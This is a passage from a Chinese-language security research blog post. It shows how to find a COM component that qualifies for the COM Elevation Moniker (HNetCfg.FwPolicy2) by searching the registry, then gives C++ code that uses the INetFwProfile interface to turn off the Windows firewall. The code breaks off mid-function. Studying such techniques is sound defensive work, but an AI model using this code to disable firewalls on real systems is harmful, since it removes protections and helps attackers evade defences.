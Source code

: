 **注：**

经过实际测试，以上三项缺一不可

接下来，按照这个要求搜索注册表寻找可用的COM组件

搜索位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID`

搜索关键词：`Elevation`

经过一段时间的搜索，我找到了一个可用的COM组件，位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{E2B3C97F-6AE1-41AC-817A-F6F92166D7DD}`

信息如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-20/2-1.png)


`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{E2B3C97F-6AE1-41AC-817A-F6F92166D7DD}\Elevation`的信息如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-20/2-2.png)

满足COM Elevation Moniker的要求

通过搜索名称“HNetCfg.FwPolicy2”发现这个COM组件同防火墙的操作有关


## 0x03 编写c++程序实现关闭防火墙
---

对应COM接口`INetFwProfile`，于是查找资料尝试编写c程序实现

通过COM接口INetFwProfile关闭防火墙的完整c++代码如下：

```
#include "stdafx.h"
#include <Strsafe.h>
#include <windows.h>
#include <netfw.h>

int _tmain(int argc, _TCHAR* argv[])
{
	INetFwMgr *g_pFwMgr = NULL;
	INetFwProfile *g_pFwProfile = NULL;
	INetFwPolicy *g_pFwProlicy = NULL;
	CoInitializeEx(NULL,COINIT_MULTITHREADED);
	VARIANT_BOOL fwEnabled;
	HRESULT hr = CoCreateInstance(__uuidof(NetFwMgr), 0, CLSCTX_INPROC_SERVER,__uuidof(INetFwMgr),reinterpret_cast<void **>(&g_pFwMgr));
	if (SUCCEEDED(hr) && (g_pFwMgr != NULL))
	{
		hr = g_pFwMgr->get_LocalPolicy( &g_pFwProlicy );
		if (SUCCEEDED(hr) && (g_pFwProlicy != NULL))
		{
			hr = g_pFwProlicy->get_CurrentProfile( &g_pFwProfile );
			hr = g_pFwProfile->get_FirewallEnabled(&fwEnabled);
			if (fwEnabled != VARIANT_FALSE)  
			{    
				printf("The firewall is on.\n");  
				hr = g_pFwProfile->put_FirewallEnabled(VARIANT_FALSE);  
				if (FAILED(hr))  
				{  
					printf("put_FirewallEnabled failed: 0x%08lx\n", hr);  
					return 0;
				}  
				printf("The firewall is now off.\n");  
			}  
			else  
			{  
```